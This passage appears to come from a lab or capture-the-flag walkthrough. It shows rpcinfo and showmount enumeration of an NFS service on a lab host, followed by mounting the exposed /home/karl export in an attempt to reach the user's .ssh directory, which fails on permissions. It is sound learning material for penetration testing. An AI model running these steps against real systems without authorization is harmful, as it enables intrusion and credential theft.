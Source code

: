 ## Enumeration
### Enumerating RPCBind + NFS

In the previous scan I noticed that the NFS service is running on the target machine, so I proceeded to enumerate this in order to identify network resources.

```console
root@kali:~# rpcinfo 172.16.178.134
...
100003    3    tcp       0.0.0.0.8.1            nfs        superuser
    100003    4    tcp       0.0.0.0.8.1            nfs        superuser
    100227    3    tcp       0.0.0.0.8.1            -          superuser
    100003    3    udp       0.0.0.0.8.1            nfs        superuser
    100003    4    udp       0.0.0.0.8.1            nfs        superuser
    100227    3    udp       0.0.0.0.8.1            -          superuser
    100003    3    tcp6      ::.8.1                 nfs        superuser
    100003    4    tcp6      ::.8.1                 nfs        superuser
    100227    3    tcp6      ::.8.1                 -          superuser
    100003    3    udp6      ::.8.1                 nfs        superuser
    100003    4    udp6      ::.8.1                 nfs        superuser
```

In the following command I found the karl’s home directory.

```console
root@kali:~# showmount -e 172.16.178.134
Export list for 172.16.178.134:
/home/karl *
```

## Exploitation
### Misconfigured NFS service

I mounted the shared directory on my attacking machine.

```console
root@kali:~# mount -t nfs -o vers=3 172.16.178.134:/home/karl /mnt -o nolock

root@kali:~# ls -la /mnt
total 28
drwxr-xr-x  3 1001 1001 4096 Mar  5  2019 .
drwxr-xr-x 18 root root 4096 Aug  8 20:12 ..
lrwxrwxrwx  1 root root    9 Mar  5  2019 .bash_history -> /dev/null
-rw-r--r--  1 1001 1001  220 Mar  4  2019 .bash_logout
-rw-r--r--  1 1001 1001 3538 Mar  5  2019 .bashrc
-rw-------  1 1001 1001   28 Mar  4  2019 .lesshst
-rw-r--r--  1 1001 1001  675 Mar  4  2019 .profile
drwx------  2 1001 1001 4096 Mar  5  2019 .ssh
```

But I do not have permissions to list the **.ssh** directory.

```console
root@kali:~# ls -la /mnt/.ssh
ls: cannot open directory '/mnt/.ssh': Permission denied
```
